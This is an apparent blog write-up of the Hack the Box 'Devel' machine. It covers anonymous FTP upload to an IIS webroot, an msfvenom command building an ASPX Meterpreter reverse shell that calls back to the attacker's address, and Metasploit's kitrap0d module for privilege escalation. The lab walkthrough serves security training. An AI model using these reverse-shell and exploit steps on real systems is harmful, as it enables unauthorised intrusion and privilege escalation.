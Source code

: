 ```yaml
---
title: Devel
date: 2021-01-22
excerpt: "'Devel' is an easy rated box on Hack the Box. To solve this box we'll take advantage of anonymous FTP login, craft shellcode using msfvenom and use metasploit's local exploit suggestor to find the path to privesc"
classes: wide
categories: HackTheBox
tags:
  - htb
  - metasploit
  - msfvenom
  - ftp
---
```



![img](/assets/images/htb/devel/0.png)

### Port Scanning and General Enumeration (Nmap)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)

Initial scan shows ports 21 (FTP) and 80 (HTTP) open. 


![img](/assets/images/htb/devel/1.png)

The target scan shows us that **Anonymous FTP login** is allowed and it looks like the **webroot**.

Logging in to **FTP** with the creds **anonymous:anonymous** we can put a file and see if we can access it from the browser. I wrote a simple htm file that says `nice`.


![img](/assets/images/htb/devel/2.png)

---

### Access (FTP, metasploit, msfvenom)
* Reading/Resources
  * [FTP](https://linux.die.net/man/1/ftp)
  * [metasploit](https://github.com/security-cheatsheet/metasploit-cheat-sheet)
  * [msfvenom](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)

Things we know:
- We can access a file that we place on the FTP server
- We're working with **Microsoft IIS** so we'll probably need an **asp** or **aspx** file

Let's craft some shellcode using **msfvenom**

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f aspx > shell.aspx`

Set up a listener in **metasploit** and access our shell in the browser

`http://10.10.10.5/shell.aspx`

and...


![img](/assets/images/htb/devel/3.png)


---

### Privesc (metasploit, ms10-015)
* Reading/Resources
  * [metasploit](https://github.com/security-cheatsheet/metasploit-cheat-sheet)
  * [ms10-015](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-015)

Well, we're on the box but as a low priv account. Let's change that. Background the shell (**bg**) and:

`use post/multi/recon/local_exploit_suggester`


![img](/assets/images/htb/devel/4.png)

Looks like there's a few we can try. Let's try `kitrap0d`

`use exploit/windows/local/ms10_015_kitrap0d`

Make sure your settings are correct and fire it off.


![img](/assets/images/htb/devel/5.png)


![img](/assets/images/htb/devel/6.png)

That's a better account! Capture the flags


![img](/assets/images/htb/devel/7.png)


![img](/assets/images/htb/devel/8.png)
